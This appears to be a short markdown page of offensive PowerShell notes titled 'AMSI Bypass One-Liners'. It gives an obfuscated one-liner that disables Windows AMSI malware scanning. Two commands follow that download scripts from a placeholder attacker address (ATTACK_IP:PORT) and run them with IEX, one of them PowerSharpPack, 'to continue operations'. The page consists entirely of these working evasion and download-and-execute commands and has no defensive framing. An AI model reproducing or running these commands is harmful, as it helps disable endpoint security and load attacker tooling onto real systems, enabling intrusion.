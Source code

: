 # AMSI Bypass One-Liners

    $x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)

### Then

    (new-object system.net.webclient).downloadstring('http://ATTACK_IP:PORT/amsi_rmouse.txt')|IEX

### Then, download any powershell script you want to continue operations

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

